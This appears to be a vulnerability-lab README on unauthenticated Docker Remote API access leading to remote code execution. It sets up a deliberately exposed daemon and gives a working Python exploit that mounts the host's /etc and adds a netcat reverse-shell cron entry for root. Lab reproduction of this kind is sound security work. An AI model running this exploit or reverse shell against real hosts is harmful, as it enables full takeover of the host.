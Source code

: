 # Docker Remote API Unauthorized Access Leads to Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Docker is a platform-as-a-service solution that delivers software in packages called containers. The Docker daemon (dockerd) exposes a REST API that allows remote management of Docker containers, images, and other resources.

When the Docker daemon is configured to listen on a network port (typically TCP port 2375) without proper authentication mechanisms, attackers can gain unauthorized access to the Docker API. This vulnerability allows attackers to create, modify, and execute containers on the host system, potentially leading to remote code execution, data theft, and complete host system compromise.

- <https://docs.docker.com/engine/security/protect-access/>
- <https://tttang.com/archive/357/>

## Environment Setup

Execute the following command to start the vulnerable Docker environment:

```
docker compose build
docker compose up -d
```

After the environment is started, the Docker daemon will listen on port 2375 without any authentication requirements.

## Vulnerability Reproduction

The vulnerability can be exploited using Python with the docker-py library. The attack involves creating a new container that mounts the host's /etc directory, allowing an attacker to modify critical system files. In this example, we will demonstrate the vulnerability by adding a malicious crontab entry that creates a reverse shell.

First, install the required Python library:

```
pip install docker
```

Then create and run a Python script that exploits the vulnerability:

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

The script creates a container that mounts the host's /etc directory and adds a reverse shell command to the root user's crontab. Within a minute, the cron daemon will execute the command, establishing a reverse shell connection to the attacker's machine.

The successful exploitation can be verified by receiving the reverse shell connection:

![Reverse Shell Exploitation](1.png)

This vulnerability demonstrates the critical importance of properly securing Docker daemon access and implementing authentication mechanisms for remote API endpoints.
